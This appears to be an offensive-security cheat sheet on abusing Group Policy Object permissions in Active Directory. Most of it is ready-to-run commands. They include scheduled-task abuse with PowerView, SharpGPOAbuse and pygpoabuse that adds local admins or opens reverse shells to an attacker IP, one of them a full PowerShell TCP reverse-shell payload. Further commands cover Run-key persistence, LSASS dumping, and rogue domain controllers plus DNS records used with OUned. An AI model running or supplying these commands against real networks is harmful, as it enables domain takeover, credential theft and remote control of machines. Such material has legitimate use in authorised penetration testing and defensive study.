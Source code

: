 # DACL Attacks on a Group Policy Object (GPO)

## 1) WriteProperty on a GPO

We can create an "evil" GPO with a scheduled task for example

##### With PowerView

    New-GPOImmediateTask -Verbose -Force -TaskName 'Update' -GPODisplayName 'weakGPO' -Command cmd -CommandArguments "/c net localgroup administrators user1 /add"

##### With SharpGPOAbuse

    ./SharpGPOAbuse.exe --AddComputerTask --TaskName "Update" --Author Administrator --Command "cmd.exe" --Arguments "/c /tmp/nc.exe attacker_ip 4545 -e powershell" --GPOName "weakGPO"

# Linux

We can update a GPO with a scheduled task for example to obtain a reverse shell

    ./pygpoabuse.py domain.local/user1 -hashes lm:nt -gpo-id "<GPO_ID>" -powershell -command "\$client = New-Object System.Net.Sockets.TCPClient('attacker_IP',1234);\$stream = \$client.GetStream();[byte[]]\$bytes = 0..65535|%{0};while((\$i = \$stream.Read(\$bytes, 0, \$bytes.Length)) -ne 0){;\$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString(\$bytes,0, \$i);\$sendback = (iex \$data 2>&1 | Out-String );\$sendback2 = \$sendback + 'PS ' + (pwd).Path + '> ';\$sendbyte = ([text.encoding]::ASCII).GetBytes(\$sendback2);\$stream.Write(\$sendbyte,0,\$sendbyte.Length);\$stream.Flush()};\$client.Close()" -taskname "The task" -description "Important task" -user

Create a local admin

    ./pygpoabuse.py domain.local/user1 -hashes lm:nt -gpo-id "<GPO_ID>"

## 2) CreateChild on Policies Cn + WriteProperty on an OU

It is possible to create a fully new GPO and link it to an existing OU

##### With RSAT module

    New-GPO -Name "New GPO" | New-GPLink -Target "OU=Workstation,DC=domain,DC=local"
    Set-GPPrefRegistryValue -Name "New GPO" -Context Computer -Action Create -Key "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" -ValueName "Updater" -Value "C:\Windows\System32\cmd.exe /C \\path\to\payload" -Type ExpandString

After GPO refresh on the OU's machines, when the machines will restart the payload will be executed

## 3) Manage Group Policy Links

With this right or GenericWrite on a GPO we can manipulate its gPLink attribute in order to apply an evil GPO to all the children of a descendant OU, even the ones with adminCount=1.

### Machine

1) Create a new Windows Server virtual machine connected to the network and install the domain controler features on it. Register it under a subdomain of the current domain (evil.domain.local)

2) Create an empty GPO on this DC

3) Reset the machine account password (to remove the unprintable characters)

        Reset-ComputerMachinePassword
4) Stop the antivirus and dump the LSASS to retrieve the password

        lsassy -d 'evil.domain.local' -u administrator -p password <evil_DC_IP>

5) Create a new computer account on the target domain with a LDAP SPN and the same password as the created DC

        python3 addcomputer_LDAP_spn.py -computer-name EVIL -computer-pass <DC_PASS> 'domain.local'/user1:password

6) Create a new DNS record on the target domain to point the evil subdomain to the attacker machine

        python3 dnstool.py -u 'domain.local\user1' -p password -r 'evil' -a add -d <attacker_IP> <DC_IP>

7) Configure the OUned.py tool with the following example. The [SMB] section must be setup to embedded and just a share name

https://github.com/synacktiv/OUned?tab=readme-ov-file#configuration-file

8) Run OUned.py

        sudo python3 OUned.py --config config.ini

### User

1) Similarly, create an evil domain controler and a computer account with a LDAP SPN

2) Create a second evil DC with the same domain as the target domain (domain.local). As the first evil DC, reset and retrieve its password

3) Create a new SMB share on the second evil DC

        New-SmbShare -Name "evil" -Path "C:\Evil"
        Grant-SmbShareAccess -Name "evil" -AccountName "DOMAIN.LOCAL\administrator" -AccessRight Full

4) Create a new computer account on the target domain with the HOST SPN and add a DNS record resolving this machine to the attacker IP

        python3 addcomputer.py -method LDAPS -computer-name EVIL2 -computer-pass <DC2_PASS> 'domain.local'/user1:password
        python3 dnstool.py -u 'domain.local\user1' -p password -r 'evil2' -a add -d <attacker_IP> <DC_IP>

5) Configure the OUned.py tool with the following example. The [SMB] section must be setup to forwarded with the other information setup

https://github.com/synacktiv/OUned?tab=readme-ov-file#configuration-file

6) Run OUned.py

        sudo python3 OUned.py --config config.ini

